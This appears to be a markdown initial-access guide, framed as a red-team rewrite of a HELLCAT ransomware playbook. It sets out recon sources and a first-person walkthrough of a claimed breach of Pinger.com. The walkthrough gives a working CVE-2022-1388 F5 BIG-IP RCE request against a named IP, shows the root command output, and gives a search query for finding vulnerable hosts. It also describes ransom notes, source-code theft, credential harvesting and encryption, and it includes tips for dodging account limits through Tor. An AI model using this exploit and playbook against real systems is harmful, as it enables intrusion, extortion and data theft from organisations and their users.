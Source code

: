 # HELLCAT Practical Initial Access Guide for Red Teams
This guide is a modified version of an original playbook exclusively used by the HELLCAT ransomware group. The original material was written from an offensive, threat actor perspective, detailing real-world attack methodologies.

This version has been restructured for ethical red team education, with all techniques presented strictly for security research purposes. It covers the full attack lifecycle: reconnaissance, exploitation, C2 infrastructure, lateral movement, persistence, evasion techniques, and includes real-world case studies (including walkthroughs of the Pinger.com and Indonesian government breaches).

Important: All content is provided for educational use only. Unauthorized penetration testing is illegal.

## Table of Contents  
1. Resources  
2. Walkthroughs (Including the Pinger.com Breach)  
3. Case Study: Indonesian Government Ransomware Attack 
4. C2 Infrastructure Setup  
5. Persistence Techniques  
6. Targeted Attack Methodologies  
7. Network Pivoting Fundamentals  
8. Operational Security: Reducing Footprint  
9. Command Cheat Sheet 

## 1. Resources

### CVE Databases:
- MITRE CVE Database  
- National Vulnerability Database (NVD)  
- Exploit Database (Exploit-DB)  

### Security News Platforms:
- Search LinkedIn for 'rce cve'  
- Follow sites like:  
  - BleepingComputer  
  - ThreatPost  
  - The Hacker News  
- Newsletters:  
  - Cybersecurity Insiders  
  - DarkReading  

### Vendor Security Advisories:
- Monitor advisories from:  
  - Microsoft  
  - Cisco  
  - Adobe  
  - Other major vendors  

### Tools:
#### Find New CVEs:
- LinkedIn  
- YouTube ("CVE")  
- Google ("rce cve")  

#### Find Vulnerable Hosts:
- en.fofa.info (3000 free credits per new account - use new Tor circuit and a disposible email from Guerilla Mail)  
- leakix.net  
- shodan.io  
- censys.io  

#### Find Exploit Scripts:
- github.com  
- sploitus.com  
- 0day.today  

### Researching Proof-of-Concept (PoC) Exploits:
#### Platforms:
- GitHub repositories (search "PoC CVE-xxxx-xxxx")  
- Exploit-DB (use advanced search)  
- Packet Storm Security  

#### Evaluating PoCs:
- **Authenticity**: Verify through trusted platforms/community feedback  
- **Replicability**: Test in controlled, isolated environment  
- **Complexity**: Analyze prerequisites (privileges/configurations)  

#### Key Tools:
- Metasploit Framework (exploit testing)  
- Python/scripting knowledge (for PoC modification)  

## 2. Walkthroughs 

**Note:** I'll give you all the tools I used in these walkthroughs. If you can't find something, message me and I'll help you out.

### Walkthrough 1: How We Got Initial Access to Pinger.com

Let me walk you through exactly how we got into Pinger.com step-by-step. Here's what we accomplished:
- Triggered building security alarms
- Printed ransom notes on their printers
- Shut down power to their server room
- Stole their source code
- Encrypted their data

#### Step-by-Step Breakdown:

1. **Finding the Exploit**
   - I was looking for exploits being used in real attacks and found CVE-2022-1388
   - Searched for it on sploitus.com and found a Proof of Concept (PoC)
     - Remember: Not all PoCs are complete exploits!
   - Followed the source link to GitHub:  
     https://github.com/alt3kx/CVE-2022-1388

2. **Testing the Exploit**
   - Now we have two options:
     1. Test it safely on a local VM first (recommended)
     2. Go straight to finding vulnerable hosts (riskier)

3. **Finding Vulnerable Targets**
   - This vendor (F5 Big-IP) has special filters:
     - Censys.io has them but version detection is hard
     - leakix.net works much better for this case
   - Try different search engines to see what works best:
     - fofa
     - shodan
     - leakix
     - censys
   - Good leakix search query:  
     https://leakix.net/search?scope=leak&q=%2Bplugin%3A%22BigIPVersion%22  
     (This shows all vulnerable F5 Big-IP hosts)

4. **Executing the Exploit**
   - The PoC uses a POST request - perfect for BurpSuite
   - Here's the exact request we used:
     ```http
     POST /mgmt/tm/util/bash HTTP/1.1
     Host: 207.140.30.115
     Authorization: Basic YWRtaW46
     Connection: keep-alive, X-F5-Auth-Token
     X-F5-Auth-Token: 0
     Content-Length: 100

     {"command": "run", "utilCmdArgs": " -c 'id' "}
     ```
   - Here's how we did it:
     1. Opened BurpSuite
     2. Sent a normal GET request to the Repeater
     3. Changed it to the POST request above
     4. Hit send

5. **Confirming We Got In**
   - The server responded with:
     ```json
     {
       "kind": "tm:util:bash:runstate",
       "command": "run",
       "utilCmdArgs": " -c 'id' ",
       "commandResult": "uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:initrc_t:s0\n"
     }
     ```
   - Boom! We have root access (RCE).

6. **What We Did After Getting In**
   - Set up SSH port forwarding (port 8081)
   - Compromised multiple Jenkins servers
   - Accessed terabytes of data including:
     - Plain text chat logs
     - Usernames and passwords
     - System logs
     - Complete source code
   - Fun fact: Pinger owns TextFree - the biggest free phone number app in North America!
